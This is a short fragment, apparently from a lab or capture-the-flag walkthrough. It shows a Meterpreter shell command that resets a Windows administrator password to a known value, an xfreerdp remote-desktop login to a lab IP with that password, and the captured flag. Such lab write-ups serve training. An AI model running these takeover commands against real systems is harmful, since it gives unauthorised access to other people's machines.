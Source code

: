 ```
net users administrator hacker_123321
The command completed successfully.

C:\Windows\system32>^C
Terminate channel 2? [y/N]  y
meterpreter > 
```

```
root@attackdefense:~# xfreerdp /u:administrator /p:hacker_123321 /v:10.0.31.240
```

The flag is on the desktop: 763e1c86da26c66e86a8537fd343280d